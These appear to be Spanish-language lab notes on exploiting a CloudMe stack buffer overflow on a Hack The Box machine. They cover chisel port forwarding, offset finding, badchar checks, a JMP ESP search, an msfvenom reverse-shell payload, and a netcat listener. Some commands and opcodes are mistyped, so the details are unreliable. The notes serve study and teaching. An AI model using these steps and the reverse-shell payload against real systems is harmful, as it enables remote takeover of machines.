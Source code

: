 Binario que corre de forma interna sobre la máquina objetivo, en el puerto 8888.
Remote Port Forwarding para poder acceder de forma remota a ese puerto:
> Servidor en local --> `./chisel server --reverse --port 1234`
> Cliente en máquina objetivo --> `chisel.exe client 192.168.0.16:1234 R:8888:127.0.0.1:8888`
> Podemos ver en la máquina local cómo el puerto 8888 ya está ocupado --> `lsof -i:8888`

Stack Based BOF diagram:
![[Pasted image 20210917091854.png]]

**Debugging en Windos con Inmunity Debugger sobre el servicio CloudMe.**
Seleccionar un servicio para debugear --> File - Attach - CloudMe

**Construcción del script para BOF - buff_htb_bof.py**
* Crear caractéres semialeatorios especialmente diseñados para probar buffer overflow.
--> /usr/share/metasploit-framework/exploit/pattern_create.rb -l 5000
--> Este payload es copiado en 'buff_htb_bof.py'
* Al ejecutar el exploit contra el servicio CloudMe, que tenemos attached en Inmunity Debugger, podeos ver qué valor toma el EIP.
* Para comprobar el offset, es decir, el tamaño del buffer hasta ocupar el EIP.
-->  /usr/share/metasploit-framework/exploit/pattern_offset.rb -q <valor_EIP>
* Secuencia del payload:
--> payload = A * 1052 + B * 4 + C * 500
--> Las A llenarán el buffer asignado a la entrada de texto
--> Las B llenarán el EIP (Extended Instruction Pointer - Dirección de la siguiente instrucción a ejecutar)
--> Las C llenarán el ESP (Extended Stack Pointer)
* El ESP es la pila, una vez desbordado el buffer, todo el contenido del payload se almacenará en el stack. En este espacion es donde se puede introducir la data.
* OPCODE (Código de operación)
--> Porción de una instrucción de lenguaje máquina que especifica la operación a ser realizada.
--> El OPCODE a buscar es JMP_ESP, una operación de salto a la pila.
--> El EIP debe apuntar a un registro que contenga un JMP_ESP para poder ejecutar el código que cargaremos en la pila.

** Entorno de trabajo con Inmunity Debugger **
Entorno de trabajo con Inmunity Debugger
> `!mona config -set workingfolder C:\Users\S4vitar\Desktop\%p`
> // Setea un directorio como directorio de trabajo
> `!mona bytearray`
> // Array de todos los números hexadecimas de 00 a FF

Comprobar badchars, caracteres que el servicio elimina y defa de funcionar, no los interpreta
> `!mona bytearray -cpb "\x00"`
> // nuevo array eliminando los badchars
> El payload actual sería para comprobar qué badchars existen --> A*1052+B*4+badchars
> Se ejecuta de nuevo el exploit y se compara el fichero badchars.txt con los caracteres introducidos en la pila a través de la dirección del ESP
> `!mona compara -f C:\Users\S4viatar\Desktop\CloudMe\bytearray.txt -a 0022D470`
> Reportará los badchars, es decir, los caracteres que el programa no interpreta
> En este caso, el programa CloudMe no presenta badchars

Crear shellcode, instrucciones a bajo nivel que permitan ejecutar una acción
> `msfvenom -p windows\shell_reverse_tcp -a x86 --platform windows LHOST=192.168.0.16 LPORT=443 -b "\x00" -l x86/shikata_ga_nai -f c`

Descubrir dirección de OPCODE JMP ESP para apuntar desde EIP y poder ejecutar la shellcode introducida en ESP
> `!mona modules`
> Buscar 'dll' con todas las prevenciones deshabilitadas
> OPCODE de jmp ESP --> ffe4
> `!mona find -s "\xff\xe4" -m QfSCore.dll`
> Seleccionamos uno con capacidad de ejecución, dirección --> 0x68a98a76
> En esta dirección, en Inmunity Debugger podemos poner un break para parar en este punto la ejecución y validar si la siguiente instrucción es la ejecución de shellcode
> Esta dirección será la ingresada en el EIP

Mejorar el shellcode
> Introducir una serie de NOPs (No operation code)
> EIP --> OPCODE jmp ESP --> ESP NOPs(\x90) + shellcode
> La introducción e estos NOPs es para dar tiempo a la muestra a desencriptarse en memoria ya que está encriptada con sikata_ga_nai
> NOPs = b"\x90" * 16

No ponemos en escucha --> `nc -nlvp 443`
Ejecutamos el exploit, payload final = before_ip + EIP + NOPs + shellcode 
																A*1052 + dirección jmp ESP + \x90*16 + reverse shell

Mejorar el shellcode eliminando NOPs y utilizando una instrucción para desplazar la pila
> OPCODE de sub esp, 0x10 --> 83 cc 10

